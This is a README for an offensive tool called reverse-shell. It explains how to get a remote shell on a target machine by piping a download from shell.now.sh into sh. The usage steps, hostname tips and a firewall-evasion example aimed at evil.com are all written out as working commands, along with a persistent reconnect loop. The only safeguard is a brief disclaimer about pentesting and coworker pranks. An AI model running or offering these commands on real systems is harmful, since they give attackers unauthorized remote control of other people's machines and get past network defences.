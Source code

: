 # reverse-shell

> Reverse Shell as a Service

[![Build Status](https://travis-ci.org/lukechilds/reverse-shell.svg?branch=master)](https://travis-ci.org/lukechilds/reverse-shell)
[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)

Easy to remember reverse shell that should work on most Unix-like systems.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://shell.now.sh/yourip:port into sh.

```shell
curl https://shell.now.sh/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Demo

<img src="https://i.imgur.com/qqjhxAw.gif" width="808">

## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://shell.now.sh/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with.

```shell
curl https://shell.now.sh/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://shell.now.sh/yourip:1337 | sh; done
```

Be careful if you do this to a coworker, if they leave the office with this still running you're opening them up to attack.

## License

MIT © Luke Childs
